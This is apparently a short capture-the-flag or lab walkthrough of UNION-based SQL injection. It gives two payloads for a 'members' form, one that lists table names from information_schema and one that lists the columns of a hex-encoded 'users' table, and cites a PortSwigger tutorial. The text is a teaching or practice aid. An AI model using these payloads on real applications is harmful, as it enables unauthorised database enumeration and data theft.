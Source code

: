 # SQL

* Go to `members` category
* In the form submit the following which will retrieve database table names:
```
null union select null,table_name from information_schema.tables
```
* Retrieve `users` (or the equivalent hex value `0x7573657273`) table columns
```
null union select null,column_name from information_schema.columns where
 table_name=0x7573657273
```
## Reference
https://portswigger.net/web-security/sql-injection/union-attacks
